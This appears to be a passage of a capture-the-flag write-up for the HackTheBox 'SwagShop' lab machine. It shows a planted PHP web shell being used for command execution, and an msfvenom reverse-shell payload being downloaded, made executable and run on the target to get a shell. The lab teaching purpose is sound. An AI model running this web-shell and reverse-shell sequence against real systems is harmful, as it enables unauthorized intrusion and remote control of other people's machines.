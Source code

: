 Now test the web shell with the following:

```bash
curl -s --data-urlencode 'c=id' http://10.10.10.140/media/tmp/bubba.php
```

![user1](./swagshop/user1.png)

Nice! That is code execution. Use it to get a dedicated shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
curl -s http://10.10.10.140/media/tmp/bubba.php --data-urlencode 'c=wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf'
```

And this returns a shell with `user.txt`:

![user2](./swagshop/user2.png)
